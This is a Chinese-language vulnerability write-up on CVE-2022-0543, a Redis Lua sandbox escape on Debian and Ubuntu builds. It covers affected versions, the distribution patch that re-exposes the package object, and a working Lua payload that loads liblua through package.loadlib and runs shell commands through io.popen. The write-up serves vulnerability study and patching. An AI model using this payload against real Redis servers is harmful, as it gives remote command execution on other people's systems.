 ```python
if __name__=="__main__":
	main()
```

# CVE-2022-0543 Redis Lua

影响范围：Debian系得linux发行版本+Ubuntu

	2.2 <= redis < 5.0.13
	2.2 <= redis < 6.0.15
	2.2 <= redis < 6.2.5

## 一、描述

影响范围：Debian系得linux发行版本+Ubuntu

其并非Redis本身漏洞，形成原因在于系统补丁加载了一些redis源码注释了的代码

揭露时间：2022.3.8

## 二、原理

redis在用户连接后可以通过eval命令执行Lua脚本，但是脚本跑在沙箱中，正常情况下无法执行命令读取文件，所以这个漏洞的本质是沙箱绕过。

Ubuntu/Debian/CentOS等这些发行版本会在原始软件的基础上打一些补丁包，其中给Redis打了一个的补丁,增加了一个include, 下面是Debian通过shell使用make生成补丁包的源码：

```c
debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@

```

- `luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package)`就是漏洞的来源

这段代码原本被注释掉，而这个补丁却重新把他写了进去，导致在Lua沙箱中遗留了一个对象package，攻击者可以利用package对象提供的加载动态链接库liblua里的函数逃逸。

```c
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

注：不同系统下liblua5.1.so.0路径不同

​		io.popen("", "r"); 的第一个引号内为执行命令
